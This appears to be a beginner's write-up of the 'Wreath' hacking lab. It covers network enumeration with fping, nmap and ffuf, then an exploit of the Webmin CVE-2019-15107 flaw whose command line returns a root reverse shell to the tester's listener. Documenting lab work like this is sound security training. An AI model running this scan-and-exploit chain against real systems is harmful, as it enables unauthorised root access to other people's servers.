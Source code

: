 ![image](https://github.com/user-attachments/assets/b5bd875b-fcc3-4286-afcc-a077677343fc)Wreath is designed as a learning resource for beginners with a primary focus on:

Pivoting
Working with the Empire C2 (Command and Control) framework
Simple Anti-Virus evasion techniques



# Brief
There are two machines on my home network that host projects and stuff I'm working on in my own time -- 
one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.


# Enumeration 

As with any attack, we first begin with the enumeration phase
1. Fping: Using the command fping -agq 10.200.73.200/24 the network was ping to figure out what is in the network
The reult returned 3 Ip address,
  A. 10.200.73.1 - the gateway
  B. 10.200.73.200 - Which is the public facing server 
  C. 10.200.73.250 - unknown machine
![image](https://github.com/user-attachments/assets/1f8ce2fb-c9a3-4f5a-8f7b-7f3a33af18e1)



2. Nmap: This was used to further enumerate the Hosts found in the network
   A.  10.200.73.250 Host: This was scanned using nmap -T4 -sV -A 10.200.73.250  -oN scan.txt  and the result only showed
       i.  port 22 is actively running OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

   ![image](https://github.com/user-attachments/assets/13b0b801-9bd8-4a18-aeeb-ca6942862a54)

  B. 10.200.73.200 Host: This was scanned using nmap -T4 -sV -p- 15000  -A 10.200.73.200  -oN scan.txt, and it returned the following
      i. Port 22 runnig OpenSSH 8.0 (protocol 2.0)
      ii. Port 80 running Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
      iii.Port  443   Apache/2.4.37 (centos) OpenSSL/1.1.1c
      ![image](https://github.com/user-attachments/assets/01be25df-0866-42bd-be16-3791b2237e54)
Going forward with the enumeration, the website was accessed, and was accessible only after adding the domain name resolved on the bowsrr when the IP addressed was input into the browser, into the /etc/hosts file
![image](https://github.com/user-attachments/assets/2c468504-6e52-4663-ba16-9dcba2c33952)
The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.200.73.200/FUZZ -fc 403
![image](https://github.com/user-attachments/assets/f65d363c-0923-42b2-8f3b-090c8273d094)

....
      iv. Port 9090 which showed closed status but is running zeus-admin
      v. Port 10000 running      MiniServ 1.890 (Webmin httpd): The website was accessed and it contained a login in page.  
![image](https://github.com/user-attachments/assets/8603471a-26cb-42e9-9b7e-d151c5ff90ba)


      vi. The operating system is linux CenSOS


# Exploitation

From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
A closer look at this version showed that it is vulnerable to RCE that gives a root shell CVE-2019–15107 
![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)

Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
./exploit.py  10.200.73.200 10000   10.50.66.4 2294           
screnshot of the script:
![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
Screenshot of the listener getting root shell
![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)





